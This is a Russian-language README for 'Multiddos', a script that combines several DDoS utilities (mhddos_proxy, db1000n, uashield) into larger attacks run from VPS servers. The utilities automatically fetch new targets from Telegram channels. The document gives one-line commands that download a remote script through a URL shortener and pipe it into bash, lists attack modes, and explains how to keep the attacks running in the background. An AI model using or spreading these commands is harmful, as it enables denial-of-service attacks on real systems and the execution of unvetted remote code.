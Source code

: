 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos) (ранее известный как auto_mhddos) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Выбор режима
<details>
  <summary>развернуть</summary>
  

В программе доступно 3 основных режима. -m1, -m2, -m3, по количеству запускаемых утилит.

* `-m1` запускает только  Multiddos (обвертка для mhddos_proxy от Украинского жнеца)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m1 && tmux a
```

* `-m2` запускает Multiddos + db1000n (этот режим используется по умолчанию)
```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m2 && tmux a
```
* `-m3` запускает Multiddos + db1000n + uashield (на данный момент не рекомендуется, так как эффективность uashield не ясна, и он дублирует атаки по тем же целям, что и утилиты выше)

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -m3 && tmux a
```
* `--matrix` режим матрицы (эффект матрицы в небольшом окне). Был добавлен в режиме тестирования, позже решили оставить как опцию.

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti --matrix && tmux a
```
 
</details>

## Запуск в фоне

Для того, чтобы запустить Multiddos в фоне достаточно просто убрать в конце команды вызов Tmux.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.


## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.
